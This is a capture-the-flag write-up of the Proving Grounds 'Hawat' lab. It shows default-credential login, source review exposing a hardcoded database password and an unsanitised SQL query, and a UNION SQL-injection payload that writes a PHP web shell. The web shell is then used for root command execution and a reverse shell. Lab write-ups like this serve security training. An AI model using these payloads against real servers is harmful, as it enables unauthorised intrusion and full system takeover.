 ```yaml
---
title: "Proving grounds Play: Hawat"
layout: post
date: 2023-10-16 02:00
categories: writeup
---
```


Proving grounds Practice - Hawat CTF writeup.

## Nmap

```text
22/tcp    open  ssh     OpenSSH 8.4 (protocol 2.0)
17445/tcp open  unknown
30455/tcp open  http    nginx 1.18.0
50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
```

## 17445/tcp open  unknown

http://192.168.156.147:17445/

![img](/assets/images/CTF/Proving_Grounds/Hawat/web1.png)

Register an user account on the portal.

## 30455/tcp open  http    nginx 1.18.0

http://192.168.156.147:30455/

http://192.168.156.147:30455/phpinfo.php

**Required UInfo**

```text
Document root = /srv/http
server port = 30455
server user = root
```

## 50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)

### Directory discovery

```sh
[11:31:15] 301 -  243B  - /cloud  ->  http://192.168.156.147:50080/cloud/
```

![img](/assets/images/CTF/Proving_Grounds/Hawat/web2.png)

Next cloud login page, use credentials `admin:admin` to login.

![img](/assets/images/CTF/Proving_Grounds/Hawat/web3.png)

Download and extract the `issuetracker.zip` file in the local machine. Open the extracted file in a text editor to review the code.

Upon reviewing the code, found that the application is vulnerable to sql injection vulnerability.

```java
	@GetMapping("/issue/checkByPriority")
	public String checkByPriority(@RequestParam("priority") String priority, Model model) {
		// 
		// Custom code, need to integrate to the JPA
		//
	    Properties connectionProps = new Properties();
	    connectionProps.put("user", "issue_user");
	    connectionProps.put("password", "ManagementInsideOld797");
        try {
			conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
		    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";           //variable priority is not sanitized or no input validation is implemented
            System.out.println(query);
		    Statement stmt = conn.createStatement();
		    stmt.executeQuery(query);

        } catch (SQLException e1) {
			// TODO Auto-generated catch block
			e1.printStackTrace();
		}
		
        // TODO: Return the list of the issues with the correct priority
		List<Issue> issues = service.GetAll();
		model.addAttribute("issuesList", issues);
		return "issue_index";
        
	}
```

On the above code the variable `priority` is not properly validated against the injection vulnerabilities and by using `UNION` based injection we can achieve remote code execution.

## Foothold

Login to the application running on `http://192.168.217.147:17445/login` with the registered credentials. Construct a POST request as per the code `/issue/checkByPriority?priority=Normal`.

> Note: GET method is not supported for the endpoint.

```http
POST /issue/checkByPriority?priority=Normal'+UNION+SELECT+sleep(5)+--+ HTTP/1.1
Host: 192.168.217.147:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=56CD439D46124C28A892FBC77124E167
Upgrade-Insecure-Requests: 1
```

SQL injection is confirmed.

**RCE Payload**

```text
Normal' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/srv/http/rce.php" -- 
```

URL encode the payload and send it to the server.

```http
POST /issue/checkByPriority?priority=Normal%27%20UNION%20SELECT%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20INTO%20OUTFILE%20%22%2Fsrv%2Fhttp%2Frce.php%22%20--%20 HTTP/1.1
Host: 192.168.217.147:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=56CD439D46124C28A892FBC77124E167
Upgrade-Insecure-Requests: 1
```

Navigate to the `http://192.168.217.147:30455/rce.php?cmd=id` location to perform code execution.

```sh
naveenj@hackerspace:|22:03|~/proving_grounds/Hawat$ curl 'http://192.168.217.147:30455/rce.php?cmd=id'
Windows 10 keeps telling me to update, why?
Is allowed to use torrent sites in the corporate network?
uid=0(root) gid=0(root) groups=0(root)
```

Create PHP reverse shell file and use port as 443 to get reverse shell. Download the php file to the server and place it on `/srv/http` folder to access it publicly.

> Note: The server only allows port 443 so run python server on the same to download the reverse shell code to the attacking machine.

```sh
naveenj@hackerspace:|22:09|~/proving_grounds/Hawat$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.186] from (UNKNOWN) [192.168.217.147] 55270
Linux hawat 5.10.14-arch1-1 #1 SMP PREEMPT Sun, 07 Feb 2021 22:42:17 +0000 x86_64 GNU/Linux
 02:11:10 up 28 min,  0 users,  load average: 0.06, 0.05, 0.00
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
sh: cannot set terminal process group (575): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1# 
```

**Foothold Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).